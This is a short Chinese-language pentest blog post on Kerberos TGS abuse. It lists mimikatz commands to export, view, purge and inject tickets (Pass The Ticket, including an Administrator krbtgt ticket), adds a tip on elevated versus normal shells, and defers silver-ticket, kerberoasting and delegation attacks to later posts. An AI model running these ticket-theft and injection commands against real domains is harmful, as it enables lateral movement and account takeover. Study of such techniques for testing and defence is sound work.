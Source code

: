 ```yaml
---
title: "TGS_REQ & TGS_REP所存在的安全问题"
date: 2020-11-12T11:38:47+08:00
draft: false
tags:
- Kerberos
series:
- Windows协议
categories:
- 渗透测试
---
```



<!--more-->

# Pass The Ticket
两个步骤全是通过AS_REQ拿到的票据进行验证，那么完全可以只用这张票据来进行横向。

mimikatz使用

```
sekurlsa::tickets /export  // 导出本机票据
kerberos::list  // 查看本机票据
kerberos::purge  // 清除本机所有票据
kerberos::ptt c:\[0;86e204]-2-0-60a00000-Administrator@krbtgt-TEST.LOCAL.kirbi  // 导入票据
```

![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/1019daf4-2de4-474a-5b69-b19e335019bd.png)

这里需要注意：我当前是win7普通本地管理员用户，mimikatz是用管理员权限起来的，那么在普通权限的cmd中klist是看不到mimikatz导入的票据的。踩了个大坑。

# 白银票据
放到后面和黄金票据一起说。

# 后文
因为没有搭建好委派的环境，而且理解的非常不透彻，所以下面的几部分都拖一拖。

1. kerberosting
2. 非约束委派
3. 约束委派
4. 基于资源的约束委派攻击


**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**